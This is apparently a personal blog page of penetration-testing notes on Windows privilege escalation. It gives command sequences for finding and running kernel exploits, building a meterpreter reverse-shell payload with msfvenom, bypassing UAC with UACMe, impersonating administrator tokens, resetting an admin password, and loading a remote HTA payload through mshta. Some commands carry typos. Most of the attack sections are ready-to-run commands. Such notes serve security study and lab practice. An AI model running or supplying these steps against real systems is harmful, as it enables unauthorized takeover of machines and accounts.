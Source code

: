 ```yaml
---
title: 'Windows privilege escalation'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
slug: 'windows'
---
```


# kernel exploit

Metasploit module to identify kernel exploits
**_multi/recon/local_exploit_suggester_**

```bash
# windows-exploit suggester github

# With an active session, to get win7.txt systeminfo from target.
./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
...
windows version identifiedas 'windows ....'
MS16-135:
...

# Upload our payload windows-kernel-exploit/MS16-135/41015.exe into tmp directory

# -EXEC-
./41015.exe
```

# Bypassing UAC (User Account Control) with UACMe

- It abuses the built-in Windows AutoElevate executables.

- It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.

- https://github.com/hfiref0x/UACME

- If the configuration setting is set highly its hard to by pass.

- User must be a local administrator group.

```bash
# Generate our payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=target LPORT=1234 -f exe > door.exe

# msfconsole, listening...
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST target
set LPOT 1234
run

#In other session upload evil-payload if meterpreter session
upload /root/UACME/akagi64.exe

# specifiet where is our payload
./akagi64.exe 23 C:\Temp\door.exe
```

```bash
# msfconsole, example of a denied service.
sysinfo
pgrep explorer
migrate $id
sysinfo
getuid
getprivs
shell
net user
net localgroup administrators
net user admin passwrod123
```

# Windows Access Tokens

- A core element of the authentication process on windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).

## Information

Are generated by the winlogon.exe process every time a user auth successfully and includes the identify and privileges of the user acc associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

- **Impersonate-level token:** Created as direct result of a non-interactive login on windows, typically through specific system services or domain logons, This tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.

- **Delegate-level Token:** Created through an interactive login on windows, primarily through a traditional login or through remote access protocols such as RDP. Pose the largest threat as they can be used to impersonate tokens on any system.

```bash
required privileges
# SeAssignPrimaryToken:
# SeCreateToken:
# SelmpersonatePrivilege:
```

## Exploit

```bash
# meterpreter
systeminfo
pgrep explorer
migrate pgred_explorer_id
getprivs

# Start attack - incognito
load incognito

# if there is no token use potato attack
list_tokens -u

#copy delegation tokens available
impersonate_token "token\Administrator"
getuid
getprivs
pgrep explorer
migrate id
getprivs

getuid # The administrator acc

```

## PowerShell command to bypass the default execution policy when running PowerShell scripts | PrivescCheck

```bash
# powershell -ep bypass .\script.ps1

# runas.exe /user:administrator cmd

### Kali
use exploit/windows/misc/hta_server
exploit

# Copy the local link and execute on cmd  with mshta.exe
mshta.exe http://link_generated_by_metasploit/hash

```
